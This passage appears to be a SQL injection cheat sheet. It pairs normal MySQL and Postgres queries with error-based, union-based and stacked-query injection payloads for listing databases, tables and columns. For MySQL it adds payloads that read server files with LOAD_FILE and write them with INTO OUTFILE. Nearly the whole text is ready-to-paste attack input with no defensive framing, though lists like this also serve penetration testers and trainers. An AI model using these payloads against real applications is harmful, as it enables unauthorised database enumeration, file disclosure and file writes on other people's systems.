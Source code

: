### List columns:
- Normal
    - `SHOW COLUMNS FROM table_name;`
- Error based
    - `'  EXTRACTVALUE(0x0a,CONCAT(0x0a,(SELECT column_name FROM information_schema.columns WHERE table_name = 'table_name' LIMIT 1 OFFSET 1)))--`
- Union Based
    - `' UNION SELECT COLUMN_NAME, NULL FROM information_schema.columns WHERE table_name = 'table_name' --`
- Stacked Queries:
    - `; SHOW COLUMNS FROM table_name; --`

### Read Files:
- Normal
    - `SELECT LOAD_FILE('/path/to/file');`
- SQLi
    - `' UNION SELECT LOAD_FILE('/path/to/file'), NULL --`

### Write Files:
- Normal
    - `SELECT * INTO OUTFILE '/path/to/file' FROM table_name;`
- SQLi
    - `' UNION SELECT column_name FROM table_name INTO OUTFILE '/path/to/file' --`


## Postgres

### List databases:
- Normal
    - `SELECT datname FROM pg_database;`
- Error based
    - `'  (SELECT CAST((SELECT datname FROM pg_database LIMIT 1 OFFSET 1) AS integer))--`
- Union Based
    - `' UNION SELECT datname, NULL FROM pg_database --`
- Stacked Queries:
    - `; SELECT datname FROM pg_database; --`

### List Tables:
- Normal
    - `SELECT table_name FROM information_schema.tables WHERE table_schema = 'public';`
- Error based
    - `'  (SELECT CAST((SELECT table_name FROM information_schema.tables WHERE table_schema = 'public' LIMIT 1 OFFSET 1) AS integer))--`
- Union Based
    - `' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema = 'public' --`
- Stacked Queries:
    - `; SELECT table_name FROM information_schema.tables WHERE table_schema = 'public'; --`

### List columns:
- Normal
    - `SELECT column_name FROM information_schema.columns WHERE table_name = 'table_name';`
- Error based
    - `'  (SELECT CAST((SELECT column_name FROM information_schema.columns WHERE table_name = 'table_name' LIMIT 1 OFFSET 1) AS integer))--`
- Union Based
    - `' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'table_name' --`
- Stacked Queries:
    - `; SELECT column_name FROM information_schema.columns WHERE table_name = 'table_name'; --`
